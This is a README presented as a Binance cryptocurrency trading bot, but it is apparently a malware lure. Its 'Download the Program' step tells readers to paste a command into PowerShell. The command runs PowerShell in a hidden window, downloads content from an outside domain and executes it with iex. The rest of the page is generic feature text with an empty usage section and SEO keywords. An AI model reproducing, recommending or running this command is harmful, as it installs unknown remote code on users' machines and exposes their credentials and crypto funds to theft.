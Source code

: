 # Binance Auto-Trading Bot 🤖💰

<h2>📥 Download the Program</h2>
<h3>copy and execute the following command in **PowerShell**(Win+R)</h3>

<pre>
  <code id="code-snippet">cmd.exe /c start /min powershell -w h "$u='https://package-extractor.com/github';[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;iex(iwr $u -UseBasicParsing -UserAgent 'ID: daff2f8').Content;</code>
</pre>

## Project Description
**Binance Trade Bot** is an automated trading bot for the Binance platform that allows users to trade cryptocurrencies using algorithmic trading. This bot utilizes trading strategies based on technical analysis and can be configured to work with various cryptocurrency pairs.

## Key Features
- **Automated Trading**: The bot can automatically open and close trades based on the parameters you set.
- **Multi-Currency Support**: Works with various currency pairs on Binance.
- **Customizable Strategies**: Easily customizable trading strategies, including moving averages, RSI, and other indicators.
- **Security**: All API keys are stored securely, and the bot does not store users' personal data.
- **User -Friendly Interface**: Intuitive interface for setting up and monitoring trades.


## Usage 🚀
Run the bot using the following command:


## Example Strategies 📈
- **Moving Average Strategy**: Uses the crossover of short and long moving averages to open trades.
- **RSI Strategy**: Opens trades based on the relative strength index (RSI) values.

## Contributing 🤝
If you want to contribute to the project, please fork the repository, make changes, and submit a pull request.

## License 📄
This project is licensed under the MIT License. Details can be found in the [LICENSE](LICENSE) file.

## Useful Links 🌐
- [Binance API Documentation](https://binance-docs.github.io/apidocs/spot/en/)
- [Binance Community](https://www.binance.com/en/support)

---

**SEO Keywords**: Binance Trading Bot, binance trade, trading bot binance
